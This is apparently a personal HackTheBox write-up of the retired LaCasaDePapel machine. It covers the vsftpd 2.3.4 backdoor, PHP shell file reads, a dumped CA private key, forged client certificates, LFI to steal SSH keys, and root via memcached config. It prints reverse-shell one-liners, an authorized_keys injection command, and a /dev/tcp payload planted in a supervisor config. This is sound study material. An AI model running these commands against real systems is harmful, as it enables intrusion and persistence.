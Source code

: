 # LaCasaDePapel Helped-Through

Name: LaCasaDePapel
Date:   
Difficulty:  Easy
Goals:
- OSCP Prep
Learnt:
- I hate psy shell
- openssl is still the pain of my existence
- more openssl
- A firefox no export certifcates, but `openssl` will!

[Ippsec](https://www.youtube.com/watch?v=OSRCEOQQJ4E)  and [[LaCasaDePapel.pdf]] were used eventually...
## Recon

The time to live(TTL) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](HackTheBox/Retired-Machines/LaCasaDePapel/Screenshots/ping.png)

This machine was done recently in 2024 just to wipe it off the list. I succeed in the sense that I weaponised the information get a working foothold, finding the ca.key. I just had no idea what to actually do with it. Then probably ran out of time and moved on.

Self hosted certificate 
![](ssl.png)

Returning to this - Nuclei found the vsftp version a displayed that there is a backdoor in this version of the application [rapid7](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/). This would not count as Auto exploit on Nuclei still which is nice tool pick.
![](vsftg.png)

## Exploit

Due to my goals I will not use the metasploit version of this exploit, instead the public exploit available on [exploitdb](https://www.exploit-db.com/exploits/49757). This does not work as the decoding of the telnetlib.interact does not decode. Then tried [ahervias](https://github.com/ahervias77/vsftpd-2.3.4-exploit/blob/master/vsftpd_234_exploit.py)

![](ahervias.png)

Tried [https://github.com/whoamins/vsFTPd-2.3.4-exploit](https://github.com/whoamins/vsFTPd-2.3.4-exploit)
![](tokyo.png)

Found a Tokyo Class, that is self signed cert function,  Nairobi is a user name..and the Dali user.
![](dali-user.png)

`proc_open()`, `shell_exec()` are both disabled

- cant `edit`
- cant run inline shell

Researched [Php vulnerable functions](https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720)

[[phpinfo-lacasadepapel-htb]]

![](file-get-contents-passwd.png)

![](getenv.png)

![](server-js.png)

scandir(getcwd()) and file_get_contents, then went wild on the file system
![](user-txt.png)
We cant get it unfortunately

But we can still get the ca.key

```

-----BEGIN PRIVATE KEY-----\n
   MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
   7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
   2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl\n
   uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M\n
   YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp\n
   s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us\n
   PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V\n
   Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89\n
   1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ\n
   /CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+\n
   q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr\n
   uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd\n
   I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og\n
   7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE\n
   G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn\n
   sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH\n
   CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y\n
   sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI\n
   ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2\n
   zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/\n
   ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC\n
   9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M\n
   WGjv+NPbLExwzwEaPqV5dvxiU6HiNsKSrT5WTed/AoGBAJ11zeAXtmZeuQ95eFbM\n
   7b75PUQYxXRrVNluzvwdHmZEnQsKucXJ6uZG9skiqDlslhYmdaOOmQajW3yS4TsR\n
   aRklful5+Z60JV/5t2Wt9gyHYZ6SYMzApUanVXaWCCNVoeq+yvzId0st2DRl83Vc\n
   53udBEzjt3WPqYGkkDknVhjD\n
   -----END PRIVATE KEY-----\n

```

Little did I know that probably I had actually tried to make the certificate and then given up not finguring out that incorrect number of `----` which I original had....  
## Foothold And The Return

Review Writeup thus far.
![](nobacktickescape.png)

Notes
```php
scandir(../../../)
file_get_contents(../../../)
```

![](sshkeysomewherepleaseoraconf.png)

```
file_put_contents('../../../home/dali/.ssh/authorized_keys', "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILnrtl5nSjU5czHAS+KWZJV4nrJLIQru0WYYFx3CoimF kali@kali\n", FILE_APPEND)
```

![](rmthiswhendone.png)

![](aarghpsyshellagain.png)

Psyshell rabbit hole or doing due diligence - just felt nasty. 
![](everypossiblehacktricksexecphpfunctiontried.png)

I just wanted this. Decided I need to move on from this box 
```
php -r '$sock=fsockopen(getenv("10.10.10.10"),getenv("443"));exec("/bin/sh -i <&3 >&3 2>&3");'
```

So I skipped forums and check the information - I have never created one of these and did not think of it.
![](abouttokothismachinequickly.png)
Looking at this again.
![720-](instructions.png)

WHO ARE THESE PEOPLE AND WHY DO I NEED TO MAKE A CERT!?!
![](gotothepages.png)
The rabbit hole here I mashed into was not fly-over all the service manual for that message.


I only had four `-`s :( and some at the end!
```bash
# Check if it is a valid key
openssl rsa -check -in ca.key
```

Had a hours trouble making certs

Followed the Writeup
![](writeup-useechowithlcdc.png)

Originally did this but failed
![1080](didthisbutfailed.png)

Do not use BurpSuite's browser to get the certificate
```bash
openssl genrsa -out client.key 4096
openssl req -new -key client.key -out client.req
openssl x509 -req -in client.req -CA lacasadepapel-htb.pem -CAkey ca.key -set_serial 101 -extensions client -days 365 -outform PEM -out client.cer
openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
```

Trying my patience with burpsuite chrome
![](importcertinburpschrome.png)

Then was juke of success
![](importedcert.png)

The above did not work - switched to firefox and modern firefox will not let you export certificates

This is the big trick of the box.
```bash
echo | openssl s_client -servername hostname -connect 10.129.18.122:443 2>/dev/null | openssl x509 -outform PEM > lacasadepapel.crt
```
[superuser - how-to-save-a-remote-server-ssl-certificate-locally-as-a-file](https://superuser.com/questions/97201/how-to-save-a-remote-server-ssl-certificate-locally-as-a-file)
![](phindfoundopensslfromsuperuser.png)


![](HOLYopensslisaPAIN.png)

![](waitingtobeservethishorrificsite.png)


![](lfifoundinthelcdppath.png)

![](berlinskeys.png)
`https://10.129.18.122/file/U0VBU09OLTIvMDEuYXZp`
![](howdowelfifromscandir.png)

![](season201base64decode.png)

```
echo -n '../.ssh/id_rsa' | base64
```

![](idrsacapturedfromlcdp.png)

![](checkalltheuserslikelasttimeforthekeylcdp.png)
Following the Writeup I `scp`ed `pspy` to the box
![](memcacheinihasasudoinit.png)

![](nodeismemcachingourmemcache.png)

```
mv memcached.ini ini.bak
vi memcached.ini
[program:memcached]
command = bash -c 'bash -i &>/dev/tcp/10.10.14.210/8443 <&1'
```

[Ippsec](https://www.youtube.com/watch?v=OSRCEOQQJ4E) method worked
![](trustinippsecforthehousetobeyourhouse.png)

...root...sigh
![](root.png)
## Post Root Reflections

- Always fly-by the different protocols of webserver